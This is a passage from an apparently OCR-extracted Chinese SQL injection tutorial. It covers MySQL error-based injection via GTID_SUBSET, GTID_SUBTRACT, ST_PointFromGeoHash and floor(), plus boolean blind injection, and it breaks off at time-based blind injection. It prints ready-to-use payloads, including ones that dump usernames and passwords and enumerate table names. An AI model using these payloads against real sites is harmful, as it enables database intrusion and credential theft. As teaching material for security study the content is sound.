 1.关于GTID：

GTID是MySQL数据库每次提交事务后生成的一个全局事务标识符，GTID不仅在本服务器上是唯一的，其在复制拓扑中也是唯一的。

2.GTID_SUBSET() 和 GTID_SUBTRACT()函数可以拿来实现报错注入：

函数详解：

GTID_SUBSET() 和 GTID_SUBTRACT() 函数，我们知道他的输入值是 GTIDset ，当输入有误时，就会报错

GTID_SUBSET( set1 , set2 ) - 若在 set1 中的 GTID，也在 set2 中，返回 true，否则返回 false ( set1 是 set2 的子集)

GTID_SUBTRACT( set1 , set2 ) - 返回在 set1 中，不在 set2 中的 GTID 集合 ( set1 与 set2 的差集)

```
#GTID_SUBSET函数

gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
 
#GTID_SUBTRACT函数

gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
```

6.ST_Pointfromgeohash

`?id=1' and  ST_PointFromGeoHash(version(),1)--+`

7.floor注入

`(select 1 from (select count(*),concat(回显查询位置,floor(rand(0)*2))x from information_schema.tables group by x)a)--+`

### 四.布尔盲注

通过观察应用程序对不同SQL查询的响应来推断数据库的内容。与传统的报错注入不同，布尔盲注不会直接触发数据库错误，而是通过应用程序的逻辑响应（通常是页面内容的变化或HTTP状态码的变化）来判断查询的结果

页面没有回显位，没有报错返回，但是对于错误和正确结果有不同反应，可以试试布尔盲注

需要的函数

ascii()用于返回给定字符的 ASCII 码值

可以构造

`?id=1 and ascii(substr((select database()),1,1))>=100 --+`

得到数据库名字后提取它的第一个字符转换为ascii码与100比较，我们通过不断调整数值(二分法)最终得到具体的码

我们也可以把select database()换成别的我们需要查找的数据，比如看看所有的表单名字

`?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>=100 --+`

这里把group_concat换成limit，从第0行就开始输出，最终控制字符长度为1个

### 五.时间盲注

通过在SQL查询中引入时间延迟函数（如 SLEEP 或 BENCHMARK），观察应用程序的响应时间来推断数据库的内容。与布尔盲注不同，时间盲注不需要应用程序返回具体的错误信息或页面内容变化，而是通过响应时间的变化来判断查询结果
